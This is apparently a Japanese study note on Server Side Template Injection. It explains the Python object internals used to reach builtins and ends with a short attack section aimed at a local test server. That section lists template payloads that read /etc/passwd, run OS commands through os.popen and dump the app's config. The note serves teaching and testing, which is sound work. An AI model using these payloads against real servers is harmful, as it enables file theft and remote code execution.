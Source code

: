 ## SSTI(Server Side Template Injection)

### 概要

- サーバ側で利用されるテンプレートエンジンにおいて、攻撃者が送信した文字列をテンプレート（の一部）として評価してしまう脆弱性

  - 攻撃対象となるシステム上のローカルファイルの読み込みや任意のコード実行などが可能になる
  - Black Hat USA 2015 において PortSwigger 社の James Kettle により SSTI の攻撃手法に関する報告がされている

- SSTI を効率的に行うために(Python)のオブジェクト構造について理解することは有用
  - インスタンスオブジェクトからのクラスオブジェクトの取得
    - python では任意のインスタンスオブジェクトから、対応するクラスオブジェクトを取得すつことが可能

クラスオブジェクトを取得する例

```python
i = 1
print(i.__class__) # print(type(i))と同等
```

```java
String str = "Hello";
Class clazz = str.getClass();
System.out.println(clazz);
```

- MRO:Method Resolution Order
  - メソッドの呼び出しを行う際に、特に継承されている場合において、呼び出したいメソッドがどのクラスで定義されているかを解決するために利用される機構(親クラスの一覧を取得できる機構)

```python
#! python3

import sys

class A(object):
    def func(self):
        sys.stdout.write('A')
        sys.stdout.write('\n')

class B(A):
    def func(self):
        sys.stdout.write('B')
        super().func()

class C(A):
    def func(self):
        sys.stdout.write('C')
        super().func()


class D(B, C):
    def func(self):
        sys.stdout.write('D')
        super().func()


print('MRO of A is...')
print(A.mro())
print('MRO of B is...')
print(B.mro())
print('MRO of C is...')
print(C.mro())
print('MRO of D is...')
print(D.mro())

A().func()
B().func()
C().func()
D().func()
```

- 明示的にサポートされている言語 - C++（C++11 以降）、Dylan、Eiffel、Perl（perl5）、Rust - （余談）Java などにはなぜ MRO は採用されていない？ - そもそも多重継承をサポートしていないため、MRO として別アルゴリズムとして切り出す必要がない[
  菱形継承問題](https://ja.wikipedia.org/wiki/%E8%8F%B1%E5%BD%A2%E7%B6%99%E6%89%BF%E5%95%8F%E9%A1%8C)

- サブクラスの取得
  - 自分自身を継承するサブクラスを取得できる

```python
#! python3

class A(object):
    pass

class B(A):
    pass

class C(A):
    pass

class D(B, C):
    pass

print('subclasses of A are...')
print(A.__subclasses__())
print('subclasses of B are...')
print(B.__subclasses__())
print('subclasses of C are...')
print(C.__subclasses__())
print('subclasses of D are...')
print(D.__subclasses__())
```

- 任意のインスタンスオブジェクトからのクラスオブジェクト object へのアクセス
  - ここまでの話をまとめると、MRO を用いて任意のオブジェクトから基底クラスである object を取り出し,`__subclasses__`メソッドを利用して object を直接あるいは間接的に継承する全てのクラスにアクセスすることが可能であると言える

```python
s = 'test'
print(s.__class__)
print(s.__class__.mro())
print(s.__class__.mro()[-1])
```

- `__global__`属性と、組み込み関数等を提供する builtins モジュール
  - ユーザあるいはライブラリ内で定義された関数やメソッドに付与される
  - `__global__`属性には該当関数あるいはメソッドにおいて使用できるグローバル変数一覧に対する dict オブジェクトの参照が保持される

```python
var = 1
def func():
    pass
print(func.__globals__)

```

- `__builtins__`は組み込み関数を提供している builtins モジュールへの参照(print 関数など)

```python
#! python3

class A(object):
    def func():
        pass

i = A.func.__globals__['__builtins__']
i.print("hello from __builtins__ from __globals__ from func")
```

- このように関数やメソッドにさえアクセスできれば,`__global__`属性と`__builtins__`属性を使用して組み込み関数を自由に利用できる

### 攻撃手法

http://127.0.0.1:5001/

- SSTI の検知方法

  - `{{ 1+1 }}`などのペイロードを使用し、どのように表示されるか確認してみる

- サーバ内ファイルの読み込み

  - `{{request.form.get.__globals__['__builtins__']['open']('/etc/passwd').read()}}`
  - `{{request.form.get.__globals__['__builtins__']['__import__']('os').popen('id').read()}}`
  - `{{ config }}`

- これらのようにサーバ内ファイルの読み込みや、OS コマンドの実行、config 情報の表示ができる
